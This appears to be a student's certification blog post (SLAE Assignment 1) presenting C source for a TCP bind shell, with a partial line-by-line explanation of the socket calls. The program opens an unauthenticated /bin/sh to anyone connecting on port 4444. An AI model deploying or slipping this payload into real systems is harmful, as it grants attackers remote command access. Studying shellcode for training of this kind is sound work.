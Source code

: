 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
## Analysis of Shell_Bind_TCP.c
First, a TCP socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint.

`socket()` expects a domain argument, a type argument, and a protocol argument.

`int sockfd = socket(AF_INET, SOCK_STREAM, 0);`

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

Next, the `sockaddr_in` IP socket address struct is created which is used in the forthcoming `bind` method. As further explained in `man 7 in`, an IP  socket address is defined as a combination of an IP interface address and a 16-bit (2 byte) port number.

`
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(4444);
addr.sin_addr.s_addr = INADDR_ANY;
`

`man 7 in` states that `sin_family` is always set to `AF_INET` 

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
